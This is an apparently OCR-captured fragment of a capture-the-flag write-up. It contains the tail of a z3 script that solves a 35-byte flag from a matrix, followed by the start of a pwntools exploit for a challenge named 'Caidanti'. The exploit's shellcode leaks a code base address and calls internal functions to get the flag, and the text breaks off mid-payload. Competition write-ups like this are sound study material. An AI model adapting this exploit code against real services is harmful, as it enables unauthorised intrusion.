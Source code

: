 ```python=
print len(mat[0])


for i in range(35):
  temp=0
  for j in range(35):
    temp+=flag[j]*mat[i][j]
  s.add(temp==ans[i])

print s.check()
print s.model()

ff=""
for i in flag:
  ff+=chr(int(str(s.model()[i])))
print ff


```
### Caidanti


```python=
from pwn import *
context.arch="amd64"
r=remote("fe80::5054:ff:fe63:5e7a%qemu", 31337)
#r=remote("54.177.17.135", 23333)

payload='''
mov rax,0xdead
mov r8,r12 # use r12 leak code text base address
sub r8,0x33a3 # now r8 is  code text base
mov rdi,r8
add rdi,0x3B56
mov rax,r8
add rax,0x10D00
call rax  # Just a put test
mov r8,r12
sub r8,0x33a3
mov r13,r8
mov r9,r8
add r9,0x12140
mov r12,qword ptr [r9]
mov rax,qword ptr [r12]
mov rdi,r12

mov rsi,rsp
add rsi,0x50
mov r15,0x416564614d756f59
mov qword ptr [rsi],r15
mov r15,0x6c6c61434c444946
mov qword ptr [rsi+8],r15
mov r15,0x0
mov qword ptr [rsi+16],r15
mov r15,16
mov qword ptr [rsi+23],r15
mov rdx,rsp
add rdx,0x20
mov rcx,rsp

add rcx,0x40              # rdi = ? rsi = password to getflag rdx = return buf
mov r14,rdi
mov r15,rdx               
```